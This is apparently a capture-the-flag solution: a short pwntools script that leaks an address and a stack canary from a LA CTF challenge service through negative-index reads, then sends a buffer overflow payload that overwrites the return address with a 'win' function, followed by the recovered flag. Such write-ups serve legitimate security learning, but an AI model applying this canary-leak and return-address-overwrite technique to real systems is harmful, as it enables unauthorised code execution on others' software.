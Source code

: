 ```python
from pwn import *
import warnings


context.log_level = "DEBUG"
warnings.filterwarnings("ignore",category=BytesWarning)

target = remote("chall.lac.tf", 31132)

target.recvuntil(b"peek? ")
target.sendline("-3")
target.recvuntil(b"Peek 1: ")
leak = int(target.recvline().strip())
log.info(hex(leak))

target.sendline("-27")
target.recvuntil(b"Peek 2: ")
canary = int(target.recvline().strip())
log.info(hex(canary))


win = leak - 440

payload = b'A' * 24
payload += p64(canary)
payload += b'A' * 8
payload += p64(win)

target.recvuntil("lady! ")
target.sendline("0")

target.recvuntil("Name: ")
target.sendline(payload)
target.interactive()

```


```sh
lactf{m0n7y_533_m0n7y_d0}
```